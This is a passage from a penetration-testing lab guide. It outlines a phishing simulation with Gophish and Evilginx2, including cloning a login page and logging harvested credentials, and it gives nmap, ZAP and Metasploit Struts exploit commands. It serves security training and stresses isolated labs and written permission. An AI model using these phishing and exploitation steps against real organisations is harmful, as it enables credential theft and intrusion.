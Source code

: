 **Deliverables:**
- Comprehensive target profile
- Risk assessment of exposed services
- Recommendations for security improvements

### Lab 2: Phishing Simulation

**Tools Required:** Gophish, Evilginx2

**Objectives:**
- Set up realistic phishing campaign
- Capture credentials safely in controlled environment

**Step-by-Step Process:**

**2.1 Campaign Setup**
1. Configure Evilginx2 proxy server
2. Clone target login page
3. Set up Gophish for email delivery
4. Test on isolated VM network only

**2.2 Credential Harvesting Documentation**
```
| Timestamp           | IP Address   | Username/Password | Risk | Notes              |
|---------------------|--------------|-------------------|------|--------------------|
| 2025-09-06 12:00:00 | 192.168.1.50 | testuser/pass123  | High | Successful capture |
```

**Safety Requirements:**
- Use only isolated lab environment
- Never target real organizations
- Obtain explicit written permission for any testing

### Lab 3: Vulnerability Exploitation

**Tools Required:** Metasploit, Nmap, OWASP ZAP

**Objectives:**
- Scan and exploit vulnerable web applications
- Document findings and remediation steps

**Step-by-Step Process:**

**3.1 Target Scanning**
```bash
# Comprehensive Nmap scan
nmap -sS -sV -O -A target_ip

# Web application scanning with ZAP
zaproxy -cmd -quickurl http://target_ip
```

**3.2 Exploitation with Metasploit**
```bash
msfconsole
use exploit/multi/http/struts_code_exec
set RHOSTS target_ip
exploit
```
